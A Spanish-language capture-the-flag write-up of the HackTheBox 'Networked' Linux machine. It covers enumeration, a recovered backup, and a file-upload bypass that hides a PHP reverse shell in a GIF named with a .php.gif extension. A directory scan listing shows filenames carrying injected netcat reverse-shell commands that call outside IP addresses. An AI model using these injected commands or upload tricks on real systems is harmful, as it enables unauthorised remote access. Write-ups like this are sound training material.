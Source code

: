 ```yaml
---
layout: post
title: "Networked"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2019-11-16 12:00:00
author: "TheusZero"
header-img: "images/post/Networked.png"
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


### Networked - una maquina linux que viene de la mano con php

### Nmap results:
```vim
root@BrI3fIng:~# nmap -sC -sV 10.10.10.146 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-16 18:20 -03
Nmap scan report for 10.10.10.146
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.61 seconds
```

### Puerto 80:
>> Hello mate, we're building the new FaceMash!
  Help by funding us and be the new Tyler&Cameron!
  Join us at the pool party this Sat to get a glimpse

### Dirbuster
```vim
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sat Nov 16 18:56:31 CLST 2019
--------------------------------
http://10.10.10.146:80
--------------------------------
Directories found during testing:
Dirs found with a 200 response:
/
/icons/
/uploads/
/icons/small/
/backup/
Dirs found with a 403 response:
/cgi-bin/
--------------------------------
Files found during testing:
Files found with a 200 responce:
/index.php
/photos.php
/upload.php
/lib.php
/uploads/;nc%20-c%2010.10.15.196%201234;.php
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&amp;
/uploads/;nc%20-c%20bash%2010.10.15.196%201234;.php
/uploads/;%20nc%2010.10.16.61%201235%20-c%20bash
/uploads/;nc%2010.10.14.156%208001%20-c%20bash;.php
/backup/backup.tar
--------------------------------
```
raro, sera que se guarda asi?, nu se. (aunque despues me dicuenta mas adelante que asi se gaurdaba)

### Busqueda en los directorios.
creo que tengo algunos directorios importantes

>/upload.php
>
>/uploads/
>
>/backup/

### Backup
viendo el directorio backup puedo encontrar algo interesante, hay un archivo.tar que puedo descargar asi que vamos a la obra.

```vim
root@BrI3fIng:~/HTB/Networked# mv backup.tar backup
root@BrI3fIng:~/HTB/Networked# cd backup/
root@BrI3fIng:~/HTB/Networked/backup# file backup.tar 
backup.tar: POSIX tar archive (GNU)
root@BrI3fIng:~/HTB/Networked/backup# tar -xf backup.tar 
root@BrI3fIng:~/HTB/Networked/backup# ls -la
total 36
drwxr-xr-x 2 root root  4096 nov 16 19:03 .
drwxr-xr-x 3 root root  4096 nov 16 19:03 ..
-rw-r--r-- 1 root root 10240 nov 16 19:02 backup.tar
-rw-r--r-- 1 root root   229 jul  9 07:33 index.php
-rw-r--r-- 1 root root  2001 jul  2 07:38 lib.php
-rw-r--r-- 1 root root  1871 jul  2 08:53 photos.php
-rw-r--r-- 1 root root  1331 jul  2 08:45 upload.php
```
Revisando lib.php y upload.php y photos.php encontre y de manera resumida, que los archivos que el sistema acepta son jpg y gif
por lo que intente subir un gif liviano y el sistema lo acepto, ahora que se que el sistema me acepto la imagen comienza la parte de buscar la reverse shell.

### Reverse Shell - Image GIF.
cargue un archivo bastante chistoso, un gif de my little pony. para cargarle la reverse shell ocupe vim y le inserte una reverse shell en php alfinal del archivo, pero antes de el ";" para que asi se procese con todo el contenido.

de por si no me funciono, ya que no leia el php. buscando por internet encontre que debia llevar si o si el .php, por lo que le coloqueÑ

>wena.php.gif

funciono. 

subio la reverse shell y ahora tocaba a usar netcat para esperar y conectarme, a ver si funcionaba.

### User Apache

Logre entrar como user "Apache"

